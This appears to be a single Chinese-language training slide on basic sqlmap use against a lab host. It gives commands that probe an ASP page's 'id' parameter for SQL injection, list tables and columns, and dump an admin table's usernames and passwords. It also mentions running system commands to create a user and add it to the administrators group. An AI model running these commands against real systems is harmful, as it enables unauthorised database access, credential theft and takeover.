

# sqlmap工具简单使用
判断id是否存在注入点
sqlmap.py -u "http://192.168.149.130:81/about.asp?id=2"
acess不用指定数据库可以直接猜表
爆表名称
sqlmap.py -u "http://192.168.149.130:81/about.asp?id=2" –tables
爆列名称
sqlmap.py -u "http://192.168.149.130:81/about.asp?id=2" -T admin --columns
爆列内容
sqlmap.py -u "http://192.168.149.130:81/about.asp?id=2" -T admin -C admin,password --dump
可以在里面执行对应的cmd命令，例如创建用户、添加到管理员组